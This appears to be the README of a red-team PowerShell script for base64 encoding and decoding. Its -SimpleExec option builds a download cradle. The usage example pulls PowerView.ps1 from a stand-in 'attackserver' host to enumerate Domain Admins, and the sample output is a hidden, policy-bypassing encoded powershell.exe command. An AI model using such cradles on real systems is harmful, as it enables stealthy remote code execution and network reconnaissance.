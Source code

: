 # Coded by Jesse Nebling (@bashexplode)

#### Description:
Quick and dirty base64 encoding and decoding with PowerShell. Also added a -SimpleExec switch to make an easy base64 encoded PowerShell cradle.

#### Usage:
    .\Base64.ps1 -Encode <string to encode>


    .\Base64.ps1 -Decode <base64 string to decode>


    .\Base64.ps1 -SimpleExec -Command "Get-DomainGroupMember 'Domain Admins' -Domain CONTOSO" -URL https://attackserver/PowerView.ps1  
Example Output:  
    
    powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -enc <base64 encoded output>
